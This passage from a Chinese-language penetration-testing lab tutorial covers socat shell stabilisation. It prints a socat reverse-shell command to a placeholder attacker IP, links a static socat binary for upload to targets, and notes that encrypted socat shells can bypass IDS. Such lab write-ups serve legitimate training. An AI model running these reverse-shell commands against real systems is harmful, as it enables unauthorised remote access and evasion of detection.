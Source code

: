 具体地说，我们将当前的 TTY （TTY含义为：终端）作为文件传递并将它的回显设置为零。这大约相当于使用 Ctrl + Z以及netcat shell 的`stty raw -echo; fg`技巧，这样处理的额外好处是能够立即建立一个稳定的shell并能连接到完整的 tty（终端）。

普通的socat监听器可以连接到任何有效负载；然而，上面这个特殊的监听器必须用一个非常具体的 socat 命令来激活，这意味着目标机必须安装 socat。

大多数机器默认情况下没有安装socat，但是，我们可以上传一个预编译的socat二进制文件，然后继续正常执行我们的命令。

> 预编译的socat二进制文件：https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true

特殊命令如下：

```shell
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

这是一个很复杂的命令，所以让我们分解一下。

第一部分很简单——我们正在 与在我们自己的攻击机上运行的监听器进行连接，第二部分使用 EXEC:"bash -li" 创建一个交互式 bash 会话，我们还传递了参数：pty、stderr、sigint、setsid 和 sane

* **pty**：在目标上分配一个伪终端——这是稳定化过程的一部分
* **stderr**：确保在 shell 中能够显示错误消息（通常是非交互式 shell 的问题）
* **sigint**：将任何 Ctrl + C 命令传递到子进程中，允许我们在 shell 中使用 Ctrl+C 终止命令
* **setsid**：在新会话中创建进程
* **sane**：稳定终端，试图将终端“正常化”。

这看起来有很多东西需要考虑，所以让我们看看它的实际效果。

在左边我们有一个监听器运行在我们的本地攻击机上，在右边我们有一个已经建立好的反向shell，正在使用非交互式 shell 运行。我们使用非交互式的netcat shell，执行特殊的 socat 命令，并在左侧的 socat 监听器中接收一个完全交互式的 bash shell:

![image-20221007161959992](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007161959992.png)

请注意，socat shell 是完全交互式的，允许我们使用交互式命令，例如 SSH。 然后我们还可以通过 设置上一个小节中所提到的 stty 值来进一步改进shell，这将让我们能够更好地使用文本编辑器，如 Vim 或 Nano。

如果socat shell 突然无法正常工作，则可以通过在命令中添加 `-d -d` 来增加信息输出的详细程度，这在实验环境下非常有用，但在一般用途中通常不是必需的。

**答题**

![image-20221007170015784](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007170015784.png)

## 使用Socat加密shell

Socat 的许多优点之一就是它能够创建加密的 shell ——绑定shell和反向shell。除非你有解密密钥，否则无法监视加密的 shell，这样通常能够绕过 IDS检测。

我们在前面讨论了如何创建基本的 shell，因此在这里不再讨论一些基本语法。

可以说，只要把 `TCP` 用作命令的一部分，就应该在使用加密shell 时将其替换为 `OPENSSL`。 我们将在本小节结束时介绍一些示例，但首先让我们谈谈证书。

**加密反向shell**

为了建立加密的shell，我们首先需要生成一个证书，这在我们的攻击机上很容易做到:

```shell
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

该命令会创建一个2048位的 RSA 密钥，以及一个匹配的 cert 文件，有自签名且有效期不到一年。当你运行此命令时，它将要求你填写有关证书的信息，你可以留空，也可以随机填写。
